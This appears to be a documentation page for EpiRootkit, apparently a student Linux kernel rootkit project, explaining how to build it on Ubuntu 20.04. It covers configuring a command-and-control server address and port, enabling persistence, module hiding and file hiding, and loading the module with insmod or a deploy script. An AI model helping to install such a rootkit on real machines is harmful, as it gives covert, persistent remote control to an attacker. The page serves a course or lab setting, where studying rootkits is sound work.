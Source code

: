 ```yaml
---
title: "Build & Deployment"
description: "How to build and load EpiRootkit on Ubuntu 20.04"
icon: "code"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 502
---
```


# Build & Deployment

How to build and deploy EpiRootkit on Ubuntu 20.04 with kernel 5.4.0.

## Requirements

### System
- **OS**: Ubuntu 20.04 LTS
- **Kernel**: 5.4.0-* (check with `uname -r`)
- **Architecture**: x86_64

### Dependencies
```bash
sudo apt update
sudo apt install -y build-essential linux-headers-$(uname -r)
```

## Configuration

Edit `rootkit/core/config.h` before building:

```c
// Option 1: Domain name (recommended)
#define C2_SERVER_ADDRESS "jules-c2.example.com"
#define C2_SERVER_PORT 4444

// Option 2: IP address (traditional)
#define C2_SERVER_ADDRESS "192.168.64.1"
#define C2_SERVER_PORT 4444

// Feature settings
#define ENABLE_ENCRYPTION 1      // XOR encryption enabled
#define ENABLE_PERSISTENCE 1     // Auto-install persistence
#define ENABLE_MODULE_HIDING 1   // Hide module by default
#define ENABLE_FILE_HIDING 1     // Hide files with prefixes
```

## Build

```bash
cd rootkit
make clean && make
# ✓ Build successful: epirootkit.ko created
```

## Deployment

### Quick Deploy (Recommended)
```bash
# Deploy with domain name
sudo ./deploy_rootkit.sh address=jules_chef_de_majeur.epirootkit.com

# Deploy with IP address
sudo ./deploy_rootkit.sh address=192.168.1.100 port=4444

# Deploy with defaults from config.h
sudo ./deploy_rootkit.sh
```

### Manual Loading
```bash
# Load with domain
sudo insmod epirootkit.ko address=jules_chef_de_majeur.epirootkit.com

# Load with IP
sudo insmod epirootkit.ko address=192.168.1.100 port=4444

# Load with defaults
sudo insmod epirootkit.ko
```

## Management

### Check Status
```bash
sudo ./deploy_rootkit.sh status
# Module Status: LOADED
# Location: /lib/modules/5.4.0-74-generic/extra/epirootkit.ko
# Autoload: ENABLED (/etc/modules-load.d/epirootkit.conf)
# Connection: CONNECTED (c2.example.com:443)
```

### Complete Removal
```bash
sudo ./deploy_rootkit.sh uninstall
# ✓ Module unloaded
# ✓ Autoload disabled
# ✓ Module file removed
# ✓ Dependencies updated
```

**Domain Support**: The rootkit supports both domain names and IP addresses. For DNS resolution details, see [DNS Resolution](./features/dns-resolution.md).